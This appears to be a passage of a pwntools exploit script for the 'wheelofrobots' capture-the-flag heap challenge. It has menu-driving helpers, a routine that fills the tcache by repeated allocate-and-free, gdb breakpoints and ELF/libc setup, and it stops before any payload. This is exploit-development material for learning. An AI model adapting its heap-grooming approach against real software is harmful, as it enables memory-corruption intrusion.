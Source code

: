 ```python
from pwn import *

def add_bot(index, optional=None):
	p.send(b'1')
	print(p.recvuntil(b'choice :').decode(), 1)
	p.send(index.encode())
	print(p.recvuntil(b'choice :').decode(), index)

	if (index.startswith('2') or index.startswith('3') or index.startswith('6')):
		p.send(optional.encode())
		print(p.recvuntil(b': ').decode(), optional)

def remove_bot(index):
	p.send(b'2')
	print(p.recvuntil(b'choice :').decode(), 2)
	p.send(index.encode())
	print(p.recvuntil(b'choice :').decode(), index)

def change_name(index, name):
	print(p.recvuntil(b'choice :').decode(), 3)
	p.send(b'3')
	print(p.recvuntil(b'choice :').decode(), index)
	p.send(index.encode())
	print(p.recvuntil(b'name:').decode(), name)

	if (type(name) is str):
		p.send(name.encode())

	elif (type(name) is bytes):
		p.send(name)

def fill_tcache(size):
	add_bot('2', size)
	remove_bot('2')
	add_bot('2', size)
	remove_bot('2')
	add_bot('2', size)
	remove_bot('2')
	add_bot('2', size)
	remove_bot('2')
	add_bot('2', size)
	remove_bot('2')
	add_bot('2', size)
	remove_bot('2')
	add_bot('2', size)
	remove_bot('2')

context.clear(arch='amd64', terminal=['tmux', 'splitw', '-fh'])

main = 0x4017f2
before_input = 0x40185a
exit_in_wheel = 0x401725

gdbscript = f'''b *{main}
b *{before_input}
b *{exit_in_wheel}
'''
gdbscript += 'c\n' * 17

elf = context.binary = ELF('./wheelofrobots')
libc = elf.libc
elf.address = 0x400000

```